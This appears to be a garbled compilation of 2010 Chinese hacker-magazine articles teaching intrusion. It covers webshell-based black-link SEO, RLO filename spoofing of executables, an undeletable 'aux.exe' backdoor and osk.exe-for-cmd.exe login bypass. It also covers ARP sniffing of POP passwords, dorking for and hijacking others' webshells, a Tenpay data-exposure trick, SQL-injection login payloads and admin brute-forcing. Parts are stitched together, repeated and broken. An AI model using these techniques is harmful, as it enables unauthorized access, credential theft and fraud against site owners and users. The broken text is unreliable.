后续步骤包括数据库备份分析、本地导入、后台账号密码提取、CMS 漏洞利用、后台登录测试、改密与权限提升等。文中提到从 SQL 备份文件中导入数据（因文件约 20MB，phpMyAdmin 默认限制 2MB，故转用 CMD）：

- `mysql -uroot -phack`
- `use xxx1;`
- `source c:\123\test.sql`

最后在权限不足情况下继续尝试提权。执行命令需要管理员权限（如图 12），最终登录 3389 终端（如图 13）。

#### 搜索引擎优化之黑链优化法及黑链的清除

### 从本文您可以学到：
- 认识黑链和黑链产生；
- 学会如何简单批量获得 Webshell 挂黑链。

搜索引擎优化（SEO）一直是网站建设和推广的热门话题，优化的方法有很多，最基本的有关键词挖掘、长尾关键词、页面静态化等。这篇文章要说的是挂黑链优化的方法，以及网站被挂黑链之后的清除方法。其他不多说，下面直接进入主题。


黑链（也称暗链）就是在网页上不显示、但搜索引擎却能抓到的链接。搜索引擎对一个网站页面的参考大部分来自于网站的外部链接，所谓“站外链接”能够增加页面的权重。我们可以在一个网站挂黑链，甚至可能会影响 Alexa 排名，以及利用链接中的 PR 值进行价值交换。下面我们来看一下 Google 中 Page Rank 的计算公式：

```text
PR(A) = (1-d) + d(PR(T1)/C(T1)+...+PR(Tn)/C(Tn))
```

从公式可以看出，PR值会随着链接数增加而变化。通常阻尼系数 d = 0.85，如果将站点放在一个页面中有 N 个出链，链接越多，分到的 PR 值越少。


### 黑链产业链揭秘
- 渗透网站获取 Webshell，或购买 Webshell 两者兼备；
- 按 PR 值设定链接价值，用于广告交换；
- 提供客户维护与后期服务（外链、接包等）。

现在我们应该很明白了，我们要挂黑链有两个途径：购买或自己获取 Webshell。买的话我就不多说了。下面讲一下如何拿 Webshell 和挂黑链（主要是针对新手，地下花钱买的就不讲了）。平平常常的网页泄露、协同入侵、研究网页语言漏洞等都是常用方法，下面不多说，主要讲解利用漏洞的操作：

### 1. 扫描 FTP 端口口令
扫描方法是最简单的，常用的扫描软件有 FTPScan，扫描速度很快，支持多线程。此软件可以通过简单的关键词字典，自动方式获取 Google 搜索的网址。然后利用弱口令获取 FTP 目录的用户名和密码，导入 TXT 文档，用户可以自行添加弱口令字典进行爆破。

### 2. 整站系统漏洞利用
整站系统漏洞可以利用批量站点，如果漏洞没有补上，很容易能找到不少目标。比如 PHPCMS、DedeCMS（织梦）、PHPLife 等网站系统存在很多漏洞。常见的如 php168、PHPCMS 等，找到网站后台后，使用默认用户名和密码即可登录后台。

### 3. 插件漏洞利用
主要是一些在线编辑器的漏洞利用。常见的有 eWebEditor、FCKEditor 等。具体的漏洞和利用方法以及工具，网上有很多，文章篇幅受限，这里就不一一列举。

## 基础 | Q版黑客
### 2010 第三季

### 伪装成 0Day 的蠕虫把戏——邪恶的 Unicode

从本文您可以学到：如何通过 Unicode 控制字符伪装文件名

一种是 jpg 文件，如图 1 所示。在这里图标显示给用户的是图片格式的图标，但实际上被伪装成可执行文件；另一个是 txt 文件，使用了 Unicode 控制字符来欺骗系统显示。


### 2010 第二季
## Q 版黑客 | Rudiment

原本的可执行程序在执行完后已经删除，而且替换后的“同名”文件此时也已经是名副其实的图片了。另外，如果还有那个扩展名为 txt 的文件会得到同样的效果，唯一的不同只是在运行该文件的时候，在打开的文本文件首尾只会多出一个可执行程序。同样，如果先用该程序运行图片文件，只会得到一个 txt 文件。到此，也许你会想：如果把不同的图片和文本文件放在一起，会是一个怎样的文件夹？这两个文件又是什么样的呢？

如果你想查看这两个文件到底是什么样式，经验告诉我们，如果一个文件执行后会释放出两个程序，看起来就像是文件被擦写了。直接用 UltraEdit 载入没有运行过的 jpg 和 txt 文件（这里需要重新解压压缩文件，原因上面已经说过了，因为程序运行一次后就会变成真正的图片和 Txt 了），


图 5 运行两个程序

将两个压缩文件解压后便得到正常的文件图标，如图 3 所示。在解压缩的过程中那个扩展名为 jpg 的文件没有问题，但是


解压后的目录下就会看到如图 7 所示的奇怪现象：文件名和扩展名竟然可以相同。我们先重命名进入，观察一下这两个文件的文件头。如图 8、图 9 所示，并且此时如果仔细观察 UltraEdit 的文件标题窗口就会发现，UltraEdit 已经将正确的文件名称解析出来了，分别是 JZCESH1.EXE 和 CDGPJ1.EXE。


如果熟悉 PE 文件格式，可以很自然地根据 PE 文件的文件头 “MZ” 和 “PE” 两个区域来判断，这两个图片实际上是标准的 PE 文件。那么程序在系统下显示扩展名为 jpg 和 txt 文件，肯定就是在文件名上做了手脚。我们尝试把文件重命名试试看，重命名的过程中发现了下面的有趣现象：两个文件重命名的时候，系统的起始位置是在名字字符串的末尾，


在程序运行过一次之后，如果再次运行就不会打开图片文件，不会再执行那个可执行程序了，因为


## 基础 | Q版黑客
### 2010 第三季


来制作我们的文件。通过运行组策略，选择我们要拷贝的文件以及释放路径。第一个框填入我们要执行的可执行程序（这里是 calc.exe），该文件将释放到临时目录（Temp）中；第二个框中填入相应的命令即可，目的是让系统自动执行该程序。在这里，通过重命名使添加的文件名与第二个文件的名称相同，这样后面就能自动运行。


知道了原理之后，后面的操作就简单了。这个控制字符的显示顺序总是从左到右覆盖。


控制字符作为标志符，如图 13 所示。利用相同的方法，可以实现文本文件的伪装效果。

最后，我们讨论这种文件伪装所实现的“改名”功能。利用这个方法可以实现较长的文件名，效果如图 13 所示。

#### SNMP 弱口令探测主机信息

### 从本文您可以学到：如何通过 SNMP 探测主机信息。

在服务器网络环境中，并非所有系统都开启公网管理系统，还有一些仅是静态页面的网站。为了探测 Linux 服务器的网络回应，我们可以向目标 Linux 服务器发起请求，或者在 ARP 设备中设置 SNMP 服务。部分探测过程使用的是 Windows 2000 系统。


### 什么是 SNMP？
SNMP（Simple Network Management Protocol，简单网络管理协议）是用于网络设备管理的一种应用层协议，由 IETF 组织制定。SNMP 通过管理端和代理端交换信息，实现对路由器、交换机、服务器等设备的监控与管理。


从 X-SCAN 扫描结果可推断主机可能开启了 SNMP 服务。通过 snmputil、snmpwalk 等工具可进一步获取系统信息、用户列表以及 MIB 值。文中展示了针对 Windows 2000 的 SNMP 探测、枚举与信息收集过程。

- snmputil walk
- snmputil get
- snmpwalk
- snmpget
- listen/查询 MIB 值
- 列出系统用户、进程与服务信息

| 序号 | OID / MIB 项 | 说明 |
|---|---|---|
| 1 | system | 系统信息 |
| 2 | interfaces | 网络接口 |
| 3 | hrSWRun | 进程相关 |
| 4 | hrSWInstalled | 已安装软件 |
| 5 | hrSystem | 主机系统信息 |

### 什么是 MIB？
Management Information Base（MIB）是管理信息库，用于定义可通过 SNMP 访问的管理对象及其结构。通过 MIB 可以查询设备状态、性能、接口、进程等信息。

#### 建立删不掉的后门

### 从本文您可以学到：如何通过特殊的文件名来防止程序被删除。

### 一、原理分析
通常，Windows 不能识别下面这些字符来命名文件/文件夹，包括：`aux`、`con`、`com1`、`com2`、`prn`、`nul` 等，因为这些名字都属于系统保留设备名称。如果我们把文件命名为这些名字，Windows 就会默认以为是系统保留设备，所以会提示“不能创建该文件”。事实上，利用这些名字命名文件，可以达到某些特殊效果。


### 二、利用方法
通过在 cmd 下输入下面的命令可以绕过限制，建立无法删除的后门：
`copy dialer.exe \\.\C:\aux.exe`

同样的，对于类似 `aux` 的文件名也是一样的命令，不过路径要一次性指定。


### 三、效果展示
执行 `copy dialer.exe \\.\C:\aux.exe` 后，如图 4。由于 `aux.exe` 是系统保留文件，普通方式无法删除，但我们可以通过特定路径访问、创建文件、读取文件、修改文件，实现隐藏效果。


#### 找回丢失的 Windows 7 密码

### 从本文您可以学到：通过几种不同的方法找回丢失的 Windows 7 密码

电脑在使用中，难免有忘记密码的时候。若是有时候系统重装以后想保存比较重要的文件，不重装系统，只需通过一个工具即可继续使用；或者使用 WinPE 进入系统，将重要文件备份下来，然后重装系统。虽然这么方法没问题，但是又有多少人会这样操作呢？而且重装系统又要花费不少时间，所以本文将教大家如何使用一种简单并且实用的方法。


### 一、准备工具
- 一张带有 DOS 工具的光盘；
- 带有 DOS 工具的优盘启动盘；
- 一张带有 NTPASS 的光盘，或一套 GHOST 光盘。

注：以上手段仅适用于单用户系统。

### 二、使用文件替换进行密码修改

#### 1. 替换 osk.exe 文件
osk.exe 是什么？osk.exe 是 Windows 的屏幕键盘程序，位于 C:\Windows\System32\ 目录下。我们只需将其替换成 cmd.exe，然后进入命令提示符即可。

```text
cd windows
cd system32
copy osk.exe osk1.exe
copy cmd.exe osk.exe
```

#### 2. 修改用户密码
修改完之后，按 “Ctrl+Alt+Del” 重新启动计算机，进入 Windows 7 的界面，点击左下角的“轻松访问”图标，再选择“不使用键盘输入（屏幕键盘）”，然后点击“应用”，如图 3。


### 三、使用 NTPASS 进行破解
如果你的计算机里带有 NTPASS 或 GHOST 的软件，可以直接通过软件来清除密码，这个非常简单，通过光盘引导即可实现。

- 进入 NTPASS 的界面；
- 进行密码清除操作。


进入 “NTPASS” 之后，会让你选择“搜索 SAM 文件的分区”，我们一般选择“1”，也就是 Windows 所在的分区，如图 10。然后在分区列表里选择 Windows 所在的分区，一般就是最前面的分区，我们这里建议选择“0”，如图 11。经过大概几十秒钟的搜索就可以找到指定分区下的 SAM 文件了，然后按“回车”继续，如图 12。接着选择清除密码并确认警告窗口。

## 基础 Q版黑客
### 2010 第三季

### 一次莫名其妙的收获

### 免费 QQ 秀，一键获取！

NTPASS 会启动系统的分区列表扫描，选择系统分区后点击“破解系统登录密码”，如图 13 所示。

在这里显然会出现“清除密码”的一些相关选项，不需要进行修改，如图 14。

重新启动计算机，你会发现不需要密码即可进入系统页面。

### 四、预防方法
其实 Windows 7 的操作系统已经考虑到了忘记密码的情况，如果你曾保存过密码，可以将密码保存在 U 盘等存储设备上。

由此我们可以认为，Windows 7 的账号方法与 Win XP 的不同，具有较好的安全性。

### 总结
这几种方法都是忘记密码后恢复的方法。使用替换法的话可以将密码修改成任意密码，操作稍微复杂点，适用于所有计算机。使用 NTPASS 的话需要机器有相关的软件，或者专用光盘；大家根据自己的水平选择合适自己的方法。

总之，希望能帮助大家解决问题，但不要将此方法用于非法用途。

编辑点评：找回密码的方法与我们 Win XP 相差不大，无非是通过验证信息找权限重置工具来重置密码。采用什么方法同学们可以自己选择，还能记忆密码并预留后门？此类失忆问题永远不少。

近日在网上去逛逛，看到有个叫“我爱我家”的博客园 (http://www.qiyzx.net/blog/)，网站使用的是 OBLOG，版本为 Copyright by oblog.cn 2005-2008。就是不用工具，直接利用关于 6.3 版的漏洞利用文章，得到了 admin45690d32c0559f5，他就是我以前的邀请码 admin888，然后便接管了后台，参阅 1 所述。

本来是我怎么，可是我突然发现旁边的在首页上搜了“我爱我家博客”，结果把我下了一跳，发现那名不详的网站，如图 2。我就尝试了一下，全部使用默认后台路径，发现该后台还支持多模块登录，于是发现相关漏洞，或者压根都有，当然这令我十分开心，顺手使用了工具。

编辑点评：在网站上经常有很多人都想都不想就获得了某些资料，这也是我们要避免的事，安全知识的基本知识也是有很多必要的。

由于家中的孩子还没有 QQ，自己的 QQ 秀一直都是“系统默认”，偶尔会引起一些好友的调侃。我在网上找到了“免费 QQ 秀一键获取工具”，一切就可以轻松搞定。

#### 在 iPod 中使用 Pirni 嗅探无线网络（中间人攻击）

### 从本文您可以学到：
- 认识 Pirni；
- 如何使用 Pirni 进行手机抓包。

iPod Touch 和 iPhone 都是非常好的便携式黑客设备，在越狱（jailbroken）并开启监控模式以后，我们可以对整个文件系统进行操作，并且安装灵活的安全评估工具，比如 Metasploit、Nmap、NC、Hydra 等等，还可以安装 python、gcc。

Pirni 是 iPod Touch/iPhone 下的一款网络嗅探程序，可以通过 ARP 方式实施中间人攻击，让网络流量经过本机，然后抓出被攻击的账户信息。具体的工作原理和传统网络下的 CAIN 是一样的。如图 1 所示。


### Pirni 是什么？
Pirni 是 iPod Touch/iPhone 下的网络嗅探程序，可以通过 ARP 实现中间人攻击，让网络流量经过本机，然后抓出被攻击的账户信息。


#### 具体攻击案例
我们首先安装好 Pirni 和 OpenSSH，我这里是使用“91手机助手 for iPhone”来安装的（图 2），比较方便。如果你的网络环境受限，也可以直接在 iPod Touch/iPhone 上通过 Cydia 来安装。

接下来，将 iPod Touch/iPhone 接入无线网络，使用 ping/ifconfig/nmap 等命令测试网络环境，如图 3 所示。具体命令如下：

```text
ifconfig 命令   查看本地的 IP 地址和网关
arp -n  查看 MAC 地址和网关对应关系
ping -c 1 192.168.1.100  //ping 测试网络是否连通
ping -c 1 192.168.1.1     //测试网关是否可达
ping -c 1 192.168.1.104   //测试目标主机是否可达
```

在终端里输入以下命令：
`pirni -s 192.168.1.1 -d 192.168.1.104 -f tcp dst port 110 -o mickey.pcap`

- `-s` 指定源地址；
- `-d` 指定目标地址；
- `-f` 指定 Berkeley 包过滤格式以及过滤条件（这里的意思是抓取目标端口为 110 (POP) 的账户信息）；
- `-o` 指定保存 pcap 文件的路径。

## 基础｜另类 HACK 2010 第三季


图 5 下载 mickey_pcap
图 6 嗅探到的密码

啰嗦的差不多的时候，远程出去装菜，然后来到自己的笔记本，打开 FileZilla Client 通过 Sftp 连接到 iPod Touch/iPhone，把机器的 mickey_pcap 文件拖回来。如图 5 所示。

PCAP 文件可以使用 Wireshark 打开，通过 Wireshark 可以看到我们已经抓出来明文密码。如图 6 所示。

通过这样的攻击案例，可以看出来，使用 iPod Touch/iPhone 对无线网进行 ARP 攻击，在防火墙或者病毒防护等安全措施方面来防止此类的攻击。在无线网络连接的时候，要时刻注意自己的网络安全。

## 后话

经过实战的攻击案例，可以看出来，使用 iPod Touch/iPhone 对无线网进行 ARP 攻击。

## 第四季：Q版黑客
#### 用组策略优化你的 Windows 7

从本文您可以学到：
- 如何通过组策略优化 Windows 7 系统

Windows 7 与 XP 一样也有组策略功能，利用这一功能，你可以优化系统，进行个性化配置，让 Win7 既美观又实用。


### 四、关闭错误报告弹窗

Win7 运行时如果出现异常就会弹出一个错误报告对话框，询问你是否将此错误提交给微软官方。你可以用组策略关闭这个错误报告弹窗，方法如下：

按 Win+R 键，输入 gpedit.msc 打开组策略编辑器，点击左侧的“计算机配置”，在右侧窗口中双击“关闭 Windows 错误报告”，选择“已启用”，点“确定”退出。

### 五、禁用自带刻录功能

Win7 中集成了刻录功能，即使使用第三方软件来刻录光盘，你也可以禁用 Win7 的自带刻录功能。

按 Win+R 键，输入 gpedit.msc 打开组策略编辑器，点击左侧的“用户配置”，“管理模板”，“Windows 组件”，“Windows 资源管理器”，在右边窗口中双击“删除 CD 刻录功能”，选择“已启用”，点“确定”退出。

### 六、关闭自动播放功能

Win7 默认情况下会开启自动播放功能，当你将 U 盘插到电脑上时，U 盘中的病毒会利用 autorun.inf 自动运行并感染电脑，因此为了防止中毒，你应该关闭自动播放功能，方法如下：

### 2010 第四季
Q 版黑客 | Rudiment

按 Win+R 键，输入 gpedit.msc 打开组策略，点击左侧的“计算机配置”，“管理模板”，“Windows 组件”，“自动播放策略”，在右边窗口中双击“关闭自动播放”条目，选择“已启用”，点“确定”退出。接下来按 Win+R 键，输入 services.msc 打开服务，在右边窗口中双击“ShellHardwareDetection”服务，点“停止”停止该服务，并将启动类型设为“手动”，点“确定”完成。如图 2。


### 七、关闭“安装更新并关机”弹窗

如果你在 Win7 中启动了自动更新功能，每次点击“关闭”菜单选择“关机”或者以其他方式去关闭机器，系统都会出现“安装更新并关机”弹窗，必须先安装更新后才能关机。要关闭这种弹窗的方法如下：按 Win+R 键，输入 gpedit.msc 打开组策略，点击左侧的“计算机配置”、“管理模板”、“Windows 组件”、“Windows Update”，在右边窗口中双击“不要在‘关闭 Windows’对话框显示安装更新并关机”条目，选择“已启用”，点“确定”退出。

#### 另类破解 Windows 系统登录密码
侠名

从本文您可以学到：通过组策略启动本地修改登录密码

一般的破解 Windows 系统登录无非是利用 SAM 文件，打开 SAM 文件进行暴力破解或者是扫描网络。这次我们来利用一项在系统启动时无法执行破解的生僻操作——它通常只能打开系统的服务管理器（如 WIN98 或者 GHOST 盘中的 WINIPY），以 Administrator 123456、This/soetc 这类以 Administrator 用户而展开只读登录界面。

在 Windows 2000、XP、2003 中，编辑组策略中的计算机配置的脚本（启动/关闭），启动在本机启动时无法执行一项本身脚本无法成功运行的脚本，如下：
在 `C:\WINDOWS\system32\GroupPolicy\Machine\Scripts\Startup` 中，Windows 系统启动脚本集中的默认脚本是 Startup.vbs 之类的文件。我们要做的，是在该目录中写一个新的脚本，内容如下：

```text
[Start up]
Command=pwd.bat
Parameters=
```

修改名字为 Scripts.ini（注文件名不可为别名），下面解释下这个配置。

从本文您可以学到：如何通过搜索引擎进行 hacking。

对于刚刚“成熟”的黑客而言，似乎容易入手，拿收藏品、拿权限是比较困难的任务。其实不然，如果仅仅为了满足好奇心来尝试做一些搜索经验的话，那么借助有一点通识的“学习心态”，并且是比较流行的“小马代号”操作，不只是用来搜索操作，非常简单！

当然，中文打到搜索引擎 Google（或百度），在搜索栏中输入“intitle:网站小助手 inurl:asp”（不包括引号与空格），回车后会得到几个口令搜索结果。为什么后缀会被改为“网站小助手”？因为它是一类关键词。（“网站小助手”这个“小马”所包含的敏感信息的处理比较容易，原因是其通用的，并且总是让在网络中这样的“小马”链路中一些常常是隐藏的。也并不是所有的搜索器都能如此，这里还需要在结果中进行

## 图1 搜索结果

二次筛选，要从中查找那些有“本文件绝对的路径 D:\web\bbs\dy.asp 保存文件的绝对路径(包括文件名:如 D:\web\x.asp)”之类字眼儿的链接，如图1。它们才是我们的目标。


OK，点击其中一个（http://xxxx.com.cn/manage/uploadfile/2010826175572184.asp），看到了吧，浏览器马上就弹出了“小马”的链接。在此我们都需要做的是将本文件的绝对路径“D:\xxx\manage\uploadfile\2010826175572184.asp”复制，然后将它粘贴到“输入保存的路径”之后，注意在添加等待上传的“大马”起个与刚刚搜索出来的“小马”不一样的名字，比如“help.asp”（将英文中间的“help”中g改成1，像成数字1），就成了与系统默认以为的易混淆名字，免得让对方网络管理员的注意；接着用记事本打开前面的“大马”文件，全选后复制一下，再粘贴到“输入文件的内容”之后，如图2，我们的魔芯系统的“EC WebShell 1.0”，其默认密码是第二行的“123”，自己可以修改它即可。

准备工作都完成之后，现在就可以点击下方的“保存”按钮，接着我们就会得到“保存成功！”的提示，如图3。


登录界面，如图4。在“Password”后面输入“123”或者自己的修改过的密码，再点击后面的“login”登陆按钮。呵呵，成功拿到了传说中的Webshell，如图5。看着，从“文件管理类”，“提权类”到“系统信息类”，“当前命令及对方的网站质量”，各种远程操作及任何文件上的上传下载都不在话下了，已经拥有了对方的“生命”。


#### 戏剧性的见证财付通 BUG

从本文您可以学到：如何利用财付通的验证缺陷得到支付密码。

大约是一个月前，邮箱突然来了好几封财付通的提醒我支付密码被修改的邮件。如图 1。打开一看果然是某人的大快吧邮件，邮件中有修改密码的操作提示。开始我一下子就想到了一个利用财付通验证缺陷的方法，如图 3。看来不是那么轻易可以给到钥匙的。财付通的系统在打开支付页面时，会弹出一个 session 提示，而我的分析认为这是可以通过多次重试、抓取页面参数和 cookie 来进一步尝试的。

首先准备登录邮箱，从中查看财付通发送的邮件信息。打开邮件后可以看到对方使用了登录保护和多种验证方式，但其中的验证链接并不严格，这给后续测试留下了空间。接着，我开始分析财付通的支付页面，发现页面中存在可利用的地方。

例如，页面里显示的收件信息和个人资料并非完全不可见，部分字段可以通过正常访问页面、查看 cookie 或直接访问某些接口而获得。继续向下测试后，我发现通过伪造请求可以进入原本需要验证的页面。于是我决定继续追踪，看看是否能够绕过相关限制。

左侧截图展示了登录邮箱界面和接收到的财付通提醒邮件，其中包含修改支付密码的提示。另一个截图则是财付通的支付页面和相关验证表单，说明系统在验证流程上存在可被利用的薄弱点。

接着我试着操作，填好手机号、验证码后，居然可以在支付页面查看到财付通余额以及与账号相关的一些信息。随后我继续追查 cookie 与历史记录，试图弄清楚页面是如何暴露这些数据的。

于是我又尝试访问支付页面的个人资料部分，发现可以看到部分真实姓名、联系方式以及支付相关信息。虽然这些内容本应受到保护，但在某些条件下页面仍然会直接显示出来，这就是本次漏洞利用的关键。

在后续测试中，我又访问了财付通的空间个人档案页面，看到头像、昵称以及一些公开内容。通过不断切换页面与参数，我确认了存在可以直接访问的路径，并成功定位到多个信息泄露点。

我在另外一处测试中还发现，访问财付通的“访问的效果”页面后，可以看到与账号绑定的支付状态和余额信息。页面的响应并未对身份做充分校验，因此只要掌握一定的访问方法，就可能看到他人的财付通账户内容。

都写完了。可能在交易过程中提到需要数字证书，也不担心，我们登录自己的 QQ 后直接从这个支付宝式流程中绕过了。这个支付证书并没有和财付通用户名称一一绑定，甚至在测试中还可以看到一个明显的用户信息展示页面。总之，这个漏洞最终让我确认了支付页面存在身份校验不足的问题。

## 基础 | Q 版黑客
### 2010 第四季
### QQ 昵称超强的玩法

从本文您可以学到：
- 如何让自己的 QQ 昵称摆出最显示的姿态；

曾经在非安全的过程中发现过类似的玩法，也在《Qhock+》一书中整理了比较综合的玩法。今天给大家带来更加另类的玩法。这不是新的技术，是一种昵称玩法。很早有人能做到。现在这里详细的介绍一下这个技术。我想你们也好，儿女也许，各位都不一定会发现很多人都还没想到的地方。


打开软件之后，我们输入自己喜欢的 QQ 昵称。我以“等待”为大家做演示。如图1。

然后我们将自己的昵称进行编辑，使其在显示的时候是竖排的。在每个字（包括第一个字）之前输入“空格”。空格输入完成之后，按 Ctrl+H 进入最终的编辑界面，此时就会出现我们要修改的代码。如图2。

接下来将代码中的可用有效的 20 列转换成 0A，0 这里往往就成了昵称代表显示的那种方式。如图3。

完成之后，按 Ctrl+G，全选并保存，更新的时候不会发生前面的 0000000……的，因为这个与昵称是没有关系的。然后我们得到修改的内容粘贴到自己的 QQ 空间之中。注意在这里显示是等号，原始的一字节，我们只管粘贴它就可以。如图4。

在这里我们能说这个方法的局限性，首先就是昵称不能超过 12 个字。其实这种方法并不是特别好的地方都会完整显示呢。但是手机上都会显示紧挨着。电脑上的效果可能会比较有意思。图 5、图 6、图 7、图 8 所示。

### 将代码隐于 gif 图片

从本文您可以学到：
- 如何在 gif 文件中隐藏 js 代码

本方法可以在 GIF 图片中隐藏很多种代码，包括 C、Perl、Javascript 等。其次这是短科引导者，再清晰度图像。GIF 可以隐藏任何数据。

### 一、脚本利用方式及效果图

```html
<script src="your.gif"></script>
```

### 二、利用原理


## DIY 无线破解器
### ——高增益天线的制作

从本文您可以学到：学会两款前端的高增益天线的制作方法

今年年初的无线技术（其实是无线网研究）是利用密集网线重新组装无线 AP 的内容。你可曾想过通过制作和测试的信号放大器？如果是，还要学会高增益无线接收，了解不同频率下的辐射与天线的关系。

| 频率(MHz) | 波长(cm) | 天线尺寸 |
|---|---:|---:|
| 2412 | 12.4 | 24.4 |
| 2417 | 12.4 | 24.4 |
| 2422 | 12.4 | 24.5 |
| 2427 | 12.4 | 24.7 |
| 2432 | 12.3 | 24.7 |

天线增益或者低多少 dB，尤其是 dBd，它表示一个天线与自由空间的半波偶极子天线标称相比较的增益。然后是 dBi，它表示一个天线与各向同性辐射器相比的增益。

如图 2，详细描述了结构示意图，天线在金属网格中间由多根导线固定；在铁皮板上固定网格后再进行加工，最终形成圆盘形反射器。不同材料与尺寸会影响天线效果。

第七点，注意，在 2.4G 频段，有几个频点（MHz）对应不同的信道，这就是我们在 BT3/4 或者 BEINI 里面看到的 1、6、11 信道。其实这个频段共有 13 个信道可用。


## 基础｜另类 HACK
### 2010 第四季

其次，初始振子的天线口径应尽量对准 AP 的方向。第二次就是我发现要做《mini小饭桌》的成品，这次动手 DIY 的重头戏，非常经典的一款手持设备。参考无线论坛讲述的介绍和造型。我们除了需要刚才提到的材料外，还有非常具有挑战性的要求——将超长、超短的 30 厘米的 4 平方音频线。4 平方的铜线里面约 2.25mm、0.5mm，并且铜箔变得薄得像丝一样。若铜的导线很难穿，可将其垫扎在箱子里，再加上固定架上去。如果较宽还会有更好的电感线宽延伸，胶带也会有助于固定，调整天线的粗细以适应不同要求。


图 6 加装铜铝带高度整体叠加孔和“内嵌螺丝”配对，而 RP-SMA 是“外螺纹加针”而内连接。对吧，如果不带头就放到上面，把那些线头留在里面，内部会比较有电感。图纸中还给出了不同材料电缆的变化，中央天线孔，内部线以及对应的长度，最后各项参数的标准值。选择不同的外接电源线，可能使用不同的功率，最终实现更好的收发效果。

螺纹式孔配对，是公共母线式和母头式、公头线的装配。接 BNC 接头、TNC 接头、MMCX 接头等，使用的天线接口和外置无线转换器相连。第十点：反射板，作用是提高定向，增加增益。铜铝材不限，差别不大，因为主要是在材料表面形成介质，所以厚度要适度。也可以是电线、螺旋线，甚至是绝缘层形成方式。首先要自制一款比较简单的天线——另一种天线材料，衬上铜线（一圈也好），实现变换到 SMA 头，弯曲有规律。具体制作方法下次再详细写。旋入金属，不剪的最简单的天线（有奇特与长宽的四边形）。电磁性是不一样的，只要有效，就可以实现发射效果。把握好不同材料表面形状及宽度，随后宽度大，厚度更加 0.25mm。天线如果要做起来比较简单，可以利用不同金属材料线和 TNC 接头，又或者 SMA 接头，配接方式是内嵌针；当然像这种金属外边，铜丝包裹方式可用电感线圈，很简单，只要将线夹持住，焊接固定即可。

### 图 7 最终结果

最终进行过多次调整后，天线接收信号达到了一个稳定的效果，后续再简单改一下外观即可。下面是整机展示图。该作品的长度、弯折角度都经过多次试验，已经很接近最终版本。


接下去，大家可以用钳子夹出中空的形状、压出一个圆弧，但注意不要拉断了，然后弯折，这样比较精确。弯折成方就一定要把图纸比出来一下，然后把接口焊牢接在一起。下一步就是焊接接管了，这一步也比较重要，大家一定要注意弯口和固定角度的误差，最好把弯折好的支架少量固定好，在还不影响受力强度的情况下完成。然后把铜线的铜管焊到侧边的螺母中的一个方向，然后打接到金属屏蔽层内接结构。一切安装部件，按照图 7、图 4 的内容重新整理。最后，就可以将其安装到外接配件上完成这次的制作。多次尝试之后，发现最终用打火机引燃铁丝（省略），比较简单，但效果还是要控制在可控范围以内。

编辑点评：无线电路技术正流行热潮，新一代的主流无线技术还非常有创意。书中的无线网卡为大多数 HACK 玩家更常接触，精彩文章不妨继续查看。


## 功夫熊猫 6
#### Hacker 系漫游记

大约8点的日子总算过去了，但是气派活在上升的趋势，这么晚的天，给山边的机场……

“宝！”我的儿子！你回来了，老爸想死你啦！……


# 基础｜策划：功夫熊猫
### 2010 第一季


程序，现在拿出来迷惑迷惑吧，文件的代码如下：

把以上代码保存为 HTML 文件，打开后如图 6。


这个时候查看本网页的源代码，看看是否上传成功，如图 8。要是上传成功，则会返回上传路径，反之则如图 8 所示，因为这个漏洞利用程序是针对部分版本的，所以成功率不是很高。

注意：以上实验中可能想到了如见过的利用规则、估计还没看体会，上传还是得做的。

需要上传成功，则会返回上传路径，反之则如图 8 所示，因为这个漏洞利用程序是针对部分版本的，所以成功率不是很高。

下面列出的是一些常见的代码片段与说明：

常用的后台万能密码登陆：

```
text
' or '1'='1
' or '1'='1'--
' or '1'='1'/*
' or '1'='1"--
' or 1=1--
```

新型万能密码：

```
text
用户名输入 ' UNION SELECT 1,1,1 FROM admin WHERE ''='1',
密码输入 1
用户名输入 ' UNION SELECT 1,1,1 AS pwd FROM admin WHERE ''='1',
密码输入 1
```

测试后发现都不能进入，这下可郁闷了，接下来再要去查些别的网。


### 2010 第一季
# 策划：功夫熊猫 | Rudiment


为了让读者理解得更加清晰，前提条件列表如下：
1. 对目标任务必须提交2
2. 目标任务P50
3. 我有 ISP 里用户权限。

旁法是一种新生的人侵手法，其杀伤力无远远超过系统的漏洞。在旁法的过程中，可以穿插很多的手法，如：权限的提升、木马的种植等等。我在这里再说说明，旁法就是从旁注入，就是利用主机的信息而进行的跨站式人侵，而不是我们所理解的，所谓的提权。旁法不需要提


旁法是一种新生的人侵手法，其杀伤力无远远超过系统的漏洞。在旁法的过程中，可以穿插很多的手法，如：权限的提升、木马的种植等等。我在这里再说说明，旁法就是从旁注入，就是利用主机的信息而进行的跨站式人侵，而不是我们所理解的，所谓的提权。旁法不需要提


“那个利用程序是针对版本的，不是会部署版本都打，而是大部分用户都在使用 webeditor 编辑器2.8版本，这样就肯定行不行。人家把内容打回来了。”

“但是有一点是要注意的，当前的路径是 http://www.xxx.com/UploadFile/2009124182226393.cer，这样的名字不能说嵌入了端点的文件名？也总感觉这个后门是从这个路径上传的。”

“这需要你这个不用，因为网站编辑者们或许很少改用过2.8的利用程序，但这应该会把一个所有人的密码信息泄露在你在设置时的早期时间段的。你将会发现，那个网站会显示出登陆的用户名字及其密码。”

“另外一个可能是机器用户在登录时没有用浏览器的插件，那有时会出现浏览器的错误，只是在某个服务器被攻破并直接通过主页进行相关的操作。那就很显然了，权限的提高是存在 CMD 命令的读写，但在浏览器中，我们并不能在 ie 下实现二次攻击。”

“那个利用程序有时对版本不兼容，但大部分都在使用 webeditor 编辑器 2.8版本，因此这个是防御性产生的必然条件。”

师姐，刚才你说的暴力破解是怎么回事呀？

“暴力破解密码，其中一种就是用字典攻击破解软件，一个接一个的试，直到破解出正确的密码为止。这个过程一般称为暴力破解，但不包括对密码的破解而是穷法的密码攻击。攻击成本很高，因为它需要对目标不断试验。暴力破解就像猜测。”

“穷法就像是对服务器进行改动，但是由于攻击者因为改变了某些数据而造成服务器崩溃。黑客、黑客的利用程序都会被攻击，而通过不断提交，才能通过简单的攻击。看来对方很着急，才不顾一切的进行修改。”

“暴力破解网站后台密码，很多用户名都会采用通行密码，但是由于攻击者发布了更好的程序，所以部分的程序会被自动分析出来。黑客的目标其实就是在这里，他们会想尽办法，从后台找到用户所允许输入进去的中间层。等到一点一滴的积累起来，就会生成一个字典，然后把密码填进去。”

“先介绍一下暴力破解程序的使用方法吧。打开浏览器，点击菜单，把 URL 的参数输入在网站后台地址，如图9。

这时系统会自动获取菜单的信息，如图10。

双击 login 表单，弹出如图11的对话框，输入常置为 admin，在这里我假设过你用户名为 admin。

在 password 栏选择一个字典，然后点击“运行”里面的“提交测试”，如图12，返回的结果如图13。

